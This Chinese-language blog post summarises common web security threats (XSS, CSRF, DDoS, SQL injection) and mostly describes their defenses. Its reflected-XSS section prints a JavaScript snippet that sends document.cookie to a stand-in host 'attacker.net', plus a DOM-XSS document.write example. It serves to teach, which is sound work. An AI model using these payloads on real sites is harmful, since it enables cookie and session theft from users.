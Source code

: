 ```yaml
---
layout: post
title: Web安全问题
categories: [前端开发]
description: some word here
keywords: Web安全
---
```


随着Web2.0、社交网络、微博等等一系列新型的互联网产品的诞生，基于Web环境的互联网应用越来越广泛，企业信息化的过程中各种应用都架设在Web平台上，Web业务的迅速发展也引起黑客们的强烈关注，接踵而至的就是Web安全威胁的凸显。下文对常见的Web安全问题和防范防范进行学习和总结。

## 跨站脚本攻击(XSS)
### 简介
跨站脚本攻击(Cross Site Scripting)为和层叠样式表(Cascading Style Sheets，CSS)区分开，在安全领域叫做“XSS”。恶意攻击者往Web页面里注入恶意Script代码，当用户浏览这些网页时，就会执行其中的恶意代码，
可对用户进行盗取cookie信息、会话劫持、篡改网页等各种攻击。XSS是常见的Web攻击技术之一，由于跨站脚本漏洞易于出现且利用成本低，所以被OWASP列为当前的头号Web安全威胁。
攻击者一般通过留言、电子邮件或其他途径向受害者发送一个精心构造的恶意URL，当受害者在Web中打开该URL的时候，恶意脚本会在受害者的计算机上执行。
### 分类
#### 反射型XSS
服务器接受客户端的请求包，不会存储请求包的内容，只是简单的把用户输入的数据“反射”给浏览器。比如
```
var i = new Image;
i.src="http://attacker.net/"+document.cookie;
```
访问这个链接则会获取cookie内容。
#### 存储型XSS
这类XSS攻击会把用户输入的数据“存储”在服务器端的数据库中。多发生在富文本编辑器、日志、留言、配置系统等数据库保存用户输入内容的业务场景。即用户的注入脚本保存到了数据库里，
其他用户进行访问涉及到包含恶意脚本的链接都会中招。由于这段恶意的脚本被上传保存到了服务器，这种XSS攻击就叫做“存储型XSS”。
#### 基于DOM的XSS
DOM XSS和反射型XSS、存储型XSS的差别在于DOM XSS的代码并不需要服务器参与，触发XSS靠的是浏览器端的DOM解析。攻击者将攻击脚本注入到DOM结构里，比如```<script>document.write(window.location.search); </script>```
### 防范
#### 对输入进行检查、过滤
不信任任何用户的输入，对每个用户的输入都做严格检查。通过检验输入值的有效性， 当输入值不符合条件时就显示错误消息并促使用户重新输入，在输出的时候，对某些特殊字符进行转义，替换。
例如，在HTML中显示<时，必须按照字符实体引用（Character Entity Reference）将其转义记载为'&lt';。而如果忽略这一步骤直接生成HTML的话，浏览器就会将<解释为标签的开始。
从而就会招致恶意利用此漏洞进行的XSS攻击。
没有用引号括起来的属性值也会导致XSS攻击，空格就意味着属性值的结束，就可以通过插入空格来添加属性，比如onmouseover事件绑定。
然而， 即使属性值都用引号括了起来，但只要"没有被转义，还是会发生 XSS 攻击。所以要对<和"进行转义。
#### 输出编码
服务器端输出到浏览器的数据，可以使用系统的安全函数来进行编码或转义来防范XSS攻击。JavaScript的编码方式可以使用JavascriptEncode。

#### 辅助性对策 
给 Cookie添加 HttpOnly属性，该属性能禁止JavaScript读取Cookie值。对Cookie信息进行MD5等算法进行多次散列存放，必要时还要对ip和cookie进行绑定，一旦检测异常，立马让用户重新登录。

## 跨站请求伪造(CSRF)
### 简介
跨站请求伪造(CSRF)可以攻击者盗用了你的身份，以你的名义发送恶意请求。CSRF能够做的事情包括：以你名义发送邮件，发消息，盗取你的账号，甚至于购买商品，虚拟货币转账......造成的问题包括：个人隐私泄露以及财产安全。参考别的博客的一张图，过程如下：
![](/images/web/w12.png)
### 防范
1、执行重要业务之前，要求用户提交额外的信息。通过 token 或者 验证码 来检测用户提交
2、尽量不要在页面的链接中暴露用户隐私信息，对于用户修改删除等操作最好都使用post 操作。
3、限制验证cookie的到期时间。这些cookie的合法时间越短，黑客利用你的Web应用程序的机会就越小。不过，这个时间越短，用户就越不方便。因此，你需要在安全性和方便性之间进行平衡。避免全站通用的cookie，严格设置cookie的域

## 分布式拒绝服务攻击(DDoS)
### 简介
利用合理的服务请求来占用过多的服务资源，从而使合法用户无法得到服务的响应

### 防范
1、隐藏服务器的真实IP地址，及时变更
2、防火墙上放置一份 ACL（访问控制列表)来阻断这些来自这些 IP 的访问
3、使用高性能的负载均衡软件

## SQL注入
### 简介
把SQL命令插入到Web表单递交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。
### 防范
单引号转义、preparestatement预编译接口